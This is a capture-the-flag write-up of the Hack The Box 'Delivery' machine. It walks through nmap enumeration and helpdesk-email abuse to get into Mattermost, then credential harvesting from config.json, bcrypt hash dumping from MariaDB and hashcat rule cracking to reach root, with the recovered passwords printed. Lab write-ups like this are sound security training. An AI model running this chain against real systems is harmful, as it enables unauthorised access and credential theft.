

Target: 10.10.10.222

## Enumeration:

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222


clicking contact us


adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

### Findings:Looking for attack vectors

[Hacking through helpdesk blog post](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)


## Foothold:

visiting the subdomain


creating ticket


```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```


checking inbox


activate the account using the link



Loot:

`maildeliverer:Youve_G0t_Mail!`


## Lateral Movement:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

`root:PleaseSubscribe!21`

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
